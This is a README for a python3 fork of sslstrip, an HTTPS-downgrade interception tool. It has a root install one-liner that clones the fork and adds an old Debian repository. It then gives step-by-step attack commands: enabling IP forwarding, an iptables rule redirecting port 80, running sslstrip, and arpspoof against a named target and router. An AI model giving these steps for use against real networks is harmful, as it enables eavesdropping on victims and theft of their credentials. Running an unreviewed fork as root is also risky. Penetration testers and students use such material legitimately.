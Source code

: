 ## This is a fork of sslstrip to python3

### Installing


----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
# Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
# Install as root:
```ShellSession
apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && sudo aptitude install python2.7-twisted-bin python-twisted-words python-twisted-runner python3-twisted-bin-dbg python-twisted-runner-dbg python-twisted python3-twisted python-twisted-names python-twisted-mail python-twisted-bin-dbg python-twisted-bin python-twisted-web python-twisted-conch python-twisted-news python-twisted-core python-twisted-libravatar twisted-doc python3-pytest-twisted python2.7-twisted-core python3-twisted-bin python2.7-twisted && pip install --upgrade --ignore-installed pyopenssl && pip3 install --upgrade --ignore-installed pyopenssl && python3 sslstrip.py -h
``` 





# Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

# More Info:
	http://www.thoughtcrime.org/software/sslstrip/
